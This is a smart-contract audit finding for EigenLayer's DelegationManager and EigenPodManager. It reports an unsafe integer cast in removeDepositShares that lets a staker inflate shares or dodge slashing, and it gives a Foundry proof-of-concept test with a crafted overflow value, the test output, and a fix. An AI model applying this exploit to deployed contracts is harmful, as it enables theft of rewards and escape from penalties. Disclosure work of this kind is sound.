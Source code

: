 

| ID                                                                                                                             | Title                                                                                                                  | Severity |
| ------------------------------------------------------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------------------------- | -------- |
| [H-01](eigenlayer-contracts.md#h-01-malicious-staker-can-increase-shares-or-bypass-the-operator-slashing-due-to-unsafe-type-casting-inremovedepositshares) | Malicious staker can increase shares or bypass the operator slashing due to unsafe type casting in removeDepositShares | high     |


## [H-01] Malicious staker can increase shares or bypass the operator slashing due to unsafe type casting in removeDepositShares

## Summary

any staker can manipulate his shares in `EigenPodManager` and `DelegationManager` due to an unsafe type casting used in `removeDepostShares` casting from `uint256` to `int256` for a `depositSharesToRemove` that is user inputted value

## Finding Description

`removeDepositShares` is called from `DelegationManager::_removeSharesAndQueueWithdrawal` that is called from `queueWithdrawals` to queue a withdrawals

```
File: DelegationManager.sol180:     function queueWithdrawals(181:         QueuedWithdrawalParams[] calldata params//     CODE195:             withdrawalRoots[i] = _removeSharesAndQueueWithdrawal({196:                 staker: msg.sender,197:                 operator: operator,198:                 strategies: params[i].strategies,199:@>               depositSharesToWithdraw: params[i].depositShares,200:                 slashingFactors: slashingFactors201:             });202:         }
```

Values in `QueuedWithdrawalParams` is

```
struct QueuedWithdrawalParams {        IStrategy[] strategies;@>      uint256[] depositShares;        address __deprecated_withdrawer;    }
```

The staker can specify a value of the shares he want to withdraw with value > `int256` to make an overflow in the `EigenPodManager` as the value is casted to int256 which will overflow silently

```
File: DelegationManager.sol501:             // Remove deposit shares from EigenPodManager/StrategyManager502:             uint256 sharesAfter = shareManager.removeDepositShares(staker, strategies[i], depositSharesToWithdraw[i]);503:
```

for this to be successful a user has to be delegated to an operator with slahsingfactor = 0 to reflect 0 when calculating decrease delegation

```
File: DelegationManager.sol493:                 _decreaseDelegation({494:                     operator: operator,495:                     staker: staker,496:                     strategy: strategies[i],497:                     sharesToDecrease: withdrawableShares[i]498:                 });499:             }
```

or he might not be delegated to any operator

## Impact Explanation

high : a user can

1. escape slashing.
2. stake initial 32 ether then withdrew them and increase his shares to gain huge rewards risk free.

## Proof of Concept

1. Add this function in `EigenPodManagerUnitTests_ShareUpdateTests` contract in `EigenPodManagerUint.t.sol` file
2. run the following command `forge test --mt test_removeShares_OverFlow_manipulate_Shares -vvvv`

```
function test_removeShares_OverFlow_manipulate_Shares() public {
        uint256 sharesAdded = 1 ether;//assume initial shares        uint256 sharesRemoved = 0.5 ether;//shares to be removed 1st        // Initialize pod with shares        _initializePodWithShares(defaultStaker, int(sharesAdded));        // this reflect the value of `podOwnerDepositShares` before withdraw        uint256 balanceBefore = eigenPodManager.stakerDepositShares(defaultStaker, beaconChainETHStrategy);        // Remove shares        cheats.prank(address(delegationManagerMock));        eigenPodManager.removeDepositShares(defaultStaker, beaconChainETHStrategy, sharesRemoved);                // this reflect the value of `podOwnerDepositShares` after partial withdraw        uint256 balanceAfter = eigenPodManager.stakerDepositShares(defaultStaker, beaconChainETHStrategy);
        // Check that balance decreases which is the normal case        assertGt(            balanceBefore, balanceAfter, "Incorrect number of shares removed"        );

        // now mkaing the overflow edgecase        uint256 overFlow_amount = 57896044618658097811785492504343953926634992332820282019728792003956564819968;//int256.max + any value due to overflow would result in increase instead of decrease                        cheats.prank(address(delegationManagerMock));        eigenPodManager.removeDepositShares(defaultStaker, beaconChainETHStrategy, overFlow_amount);                // this reflect the value of `podOwnerDepositShares` overflow edgecase withdraw        uint256 balanceAfterOverflow = eigenPodManager.stakerDepositShares(defaultStaker, beaconChainETHStrategy);
        // asserting that instead of `podOwnerDepositShares` to decrease it increases.        assertGt(balanceAfterOverflow, balanceAfter);    }
```

output

```
VM::assertGt(57896044618658097611785492504343953926634992332820282019729292003956564819968 [5.789e76], 500000000000000000 [5e17]) [staticcall]    │   └─ ← [Return]    └─ ← [Stop]
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 2.48ms (402.39µs CPU time)
```

As can be seen `podOwnerDepositShares` after withdrawal increased instead of decreasing

## Recommendation

apply this in `removeDepositShares`

```
++    require(int256(depositSharesToRemove) > 0, SharesNegative());
```
